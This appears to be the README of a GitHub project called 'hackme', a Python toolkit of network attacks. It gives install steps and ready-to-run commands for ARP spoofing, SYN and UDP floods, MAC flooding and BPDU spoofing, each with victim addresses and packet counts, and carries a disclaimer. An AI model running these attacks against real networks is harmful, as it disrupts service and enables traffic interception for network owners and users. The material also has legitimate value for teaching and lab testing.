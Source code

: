 
# Hack Me

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
[![GitHub license](https://img.shields.io/github/license/nadzyah/hackme?style=for-the-badge)](https://github.com/nadzyah/hackme/blob/main/LICENSE)

A collection of scripts that implement different network attacks. **For informational purposes only.** 

Any contributor to this project doesn't take any responsibility for illegal usage of any script from this project.

# Installation and Usage

The tested environment:
* Python v3.10
* Ubuntu 22.04 LTS

Make sure that `python3-scapy` is installed on your system: `sudo apt-get install python3-scapy`

You can either run `hackmeapp.py` from a checkout of the code, or install it like any other python project. Keep in mind that a lot of scripts here can be executed only with the root privileges, so you need to run it with sudo.

```bash
$ sudo pip3 install hackme
$ sudo hackme
usage: hackme [-h] [--debug] {attack} ...
```

To enter the debug mode, use the `--debug` option after the `hackme` command.

To get the attack description in the terminal, enter `hackme <attack> --desc`


# Implemented Attacks

The following commands include the `--debug` option, which is not required to execute an attack.

## ARP Spoofing

You can read about ARP spoofing attack [here](https://www.wikiwand.com/en/ARP_spoofing).

Example usage:

```bash
$ sudo hackme --debug arpspoof -i wlp2s0 -m aa:aa:aa:aa:aa:aa -gm BB-BB-BB-BB-BB-BB -gip 192.168.0.1 -vm cc:cc:cc:cc:cc:cc -vip 192.168.0.108
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the interface MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `bb:bb:bb:bb:bb:bb` — the gateway's MAC-address
* `192.168.0.1` — the gateway's IP-address
* `cc:cc:cc:cc:cc:cc` — the victim's MAC-address
* `192.168.0.108` — the victim's IP-address

Run `sudo hackme arpspoof --help` to get more information.

## SYN Flood

You can read about SYN flood attack [here](https://www.wikiwand.com/en/SYN_flood).

Example usage:

```bash
$ sudo hackme --debug synflood -d 172.17.17.10 -p 443 -c 1000
```
where:

* `172.17.17.10` — server's IP-address
* `443` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme synflood --help` to get more information.

## UDP Flood

You can read about UDP flood attack [here](https://www.wikiwand.com/en/UDP_flood).

Example usage:

```bash
$ sudo hackme --debug udpflood -d 172.17.17.10 -p 53 -c 1000
```

where:

* `172.17.17.10` — server's IP-address
* `53` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme udpflood --help` to get more information.

## MAC Flood

You can read about MAC flood attack [here](https://www.wikiwand.com/en/MAC_flooding).

Example usage:

```bash
$ sudo hackme --debug macflood -i wlp2s0 -vm "aa:aa:aa:aa:aa:aa" -c 100000
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the victim's MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `100000` — the number of packets to be sent

Run `sudo hackme macflood --help` to get more information.

## BPDU Spoofing

On a Layer 2 network, switches running STP, RSTP, MSTP, or VBST exchange BPDUs to calculate a spanning tree and trim the network into a loop-free tree topology. If forged BPDUs are sent to attack a device with edge ports and received by them, the device will automatically change the edge ports to non-edge ports and recalculate the spanning tree. If the bridge priority in the BPDUs sent by an attacker is higher than the priority of the root bridge, the network topology will change, thereby interrupting service traffic.

Example usage:

```bash
sudo ./hackmeapp.py --debug stpspoof -i wlp2s0 -smac "aa:aa:aa:aa:aa:aa" -dmac "bb:bb:bb:bb:bb:bb" -p 4096
```

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — your MAC-address
* `bb:bb:bb:bb:bb:bb` — victim switch's MAC-address
* `4096` — priority for choosing the root switch (the lower the number, the higher the priority, so make sure it's low enough to become the root). Must be divisible by 4096
